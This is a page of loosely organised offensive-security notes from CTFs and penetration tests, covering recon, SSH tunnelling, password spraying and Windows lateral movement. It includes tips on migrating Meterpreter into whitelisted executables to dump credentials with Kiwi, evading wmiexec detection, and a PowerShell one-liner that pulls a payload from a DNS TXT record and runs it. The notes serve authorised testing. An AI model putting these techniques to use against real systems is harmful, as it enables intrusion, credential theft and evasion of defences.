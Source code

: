 ```yaml
---
description: Unorganized collections of my notes from CTFs and penetration tests
---
```


# Offensive Security Notes

1\. Search for whitelisted applications when looking to migrate and dump credentials. During a penetration test I was struggling to dump credentials with Kiwi as a PoC. Migrating into an AppSense application that is required to be whitelisted by endpoints can result in easy l00t. [This link](https://knowledge.broadcom.com/external/article/171640/dlp-endpoint-agent-causes-delays-when-fi.html) lists a few of the executables that I was able to migrate into with Meterpreter and proceed to execute Kiwi from, namely EMUser.exe.

2\. Time to Live

```bash
TTL > 64 it is most likely a Linux box
TTL > 128 it is most likely a Windows
TTL < 128 most likely some type of networking device.
```

3\. Some quick notes on organizing tooling:

* Download and place the tool into /opt/ (e.g., Aquatone).&#x20;
* Execute the following command on the Aquatone binary: `ln -s /opt/aquatone/aquatone /usr/local/bin/aquatone`

3\. Reverse shell preferences:

* External: Bind shell
* Internal: Reverse shell

4\. [Microsoft has a great reference](https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies) for .NET Framework & Windows OS Versions. We can then [use a precompiled binary from SharpCollection](https://github.com/Flangvik/SharpCollection) to exploit the system.

* Compile the binaries yourself.. Unless it's a CTF.

5\. Performing password spraying with [SprayCharles](https://github.com/Tw1sm/spraycharles) from my experience is more successful than using the [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit). Ran into a situation on an engagement where multiple valid logins were reported as invalid by SprayingToolkit.&#x20;

6\. Kali Linux allows for multiple IP addresses to be set manually on an interface, allowing for you to set multiple callbacks in case one of your IP addresses gets banned. The following demonstrates a screenshot of this:

![](https://i.imgur.com/FYiHJX6.png)

7\. Download a Nessus scan via Metasploit:

```bash
# Load the Nessus plugin
load Nessus

# Authenticate to Nessus
nessus_connect $username:$password@127.0.0.1:8834

# List Available Nessus Scans (Pay attention to the ID)
nesssus_scan_list

# Export the Nessus Scan
Nessus_scan_export $id nessus

Download the Nessus scan to ~/.msf
nessus_report_download $id $fileid

# Report is then accessible in the ~/.msf4/local directory
# Rename the file to $client.nessus
```

8\. Quick SSH tips:

#### Add SOCKS to an Existing SSH Connection

```bash
<enter> ~C
-D 1080
```

#### Forward a Port on an Existing SSH Connection

```bash
<enter> ~C
-L 1337:localhost:1337
```

9\. Make your life significantly easier when analyzing email headers with [Message Header Analyzer](http://mha.azurewebsites.net).

10\. Trying to make a high quality screenshot to illustrate commands used? Check out [carbon.now.sh](https://carbon.now.sh/).&#x20;

10\. Don't know what a command does? There's no shame in that. For Linux check out [ExplainShell](https://explainshell.com/) and for PowerShell use[ ExplainPowershell](https://www.explainpowershell.com/).&#x20;

11\. Check the configuration of LAPS using a machine account per [@HackingLZ](https://twitter.com/hackinglz), as it was noted that configurations are often messed up for them.&#x20;

12\. Your daily reminder that RDP local admin bruteforce has no rate limiting.

13\. If you have a shell on a Windows host and need to check if your process is high integrity without sounding alarms, you can issue the following check:

```bash
# >= high if file listing is shown
CMD -> dir \windows\temp
PowerShell --> ls \windows\temp
```

14\. A fun way to execte payloads is via a domains TXT record, the following command will run the provided payload:

```bash
powershell . (nslookup -q=txt parzival.sh)[-1]
```

15\. Always perform content discovery both as an unauthenticated and authenticated user (provide cookies to tool of choice)

16\. Trigger NTLM authentiction over HTTP from the command line:

```powershell
Invoke-WebRequest -UseDefaultCredentials
```

17. Impacket's `wmiexec.py` is useful for lateral movement but is often detected. To potentially defeat detections, change the tgt share (-share C$) or use "-silentcommand".
18. Leave Pcredz, Impacket SMB server, Responder (Analyze mode), etc running all the time. You never know when a random Domain Admin will try to auth to you over NTLM (agentless security products).
19. If you PWN a system during a penetration test (local admin privs) but still don't have a "domain user" - you can escalate privileges to SYSTEM and leverage the machine account.
